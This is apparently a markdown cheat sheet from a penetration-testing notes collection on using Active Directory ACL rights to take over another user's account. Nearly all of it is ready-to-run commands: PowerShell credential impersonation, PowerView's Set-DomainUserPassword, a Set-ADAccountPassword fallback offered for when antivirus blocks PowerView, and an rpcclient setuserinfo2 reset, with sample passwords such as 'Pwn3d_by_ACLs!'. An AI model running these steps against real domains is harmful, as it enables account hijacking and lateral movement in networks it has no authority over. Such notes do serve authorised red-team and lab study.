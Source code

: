 # Change a User's Password Using ACL Permissions

1. **Authenticate as the Controlling User User I have**  
   - **Create a Secure String** for the password of the user with ACL permissions (e.g., `ali`):  
     ```powershell
     $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
     ```  
   - **Create a PSCredential Object** to impersonate the controlling user:  
     ```powershell
     $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
     ```  
     Replace `DOMAIN\USERNAME` (e.g., `corp.com\ali`).

2. **Define the New Password for the Target User**  
   - **Create a Secure String** for the new password (e.g., `Pwn3d_by_ACLs!`):  
     ```powershell
     $NewPassword = ConvertTo-SecureString '<NEW_PASSWORD>' -AsPlainText -Force
     ```  
---

3. **Reset the Target User's Password**  
   - **Import Required Modules** (e.g., PowerView):  
     ```powershell
     Import-Module .\PowerView.ps1
     ```  
   - **Execute the Password Change**:  
     ```powershell
     Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $NewPassword -Credential $Cred -Verbose
     ```  
     Replace `<TARGET_USER>` (e.g., `ahmed`).  
---
Another way to **Reset the Target User's Password** if powerview.ps1 cannot be executed (AV)
Set-ADAccountPassword (ActiveDirectory module)
# Example: Reset a user password to “p@ssw0rd”
``` powershell
Set-ADAccountPassword -Identity 'CN=Elisa Daugherty,OU=Accounts,DC=Fabrikam,DC=com' `
    -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "p@ssw0rd" -Force)
```
# Using rpc from owned user login
```
setuserinfo2 <target-user> 23 'P@ssword2022'
```
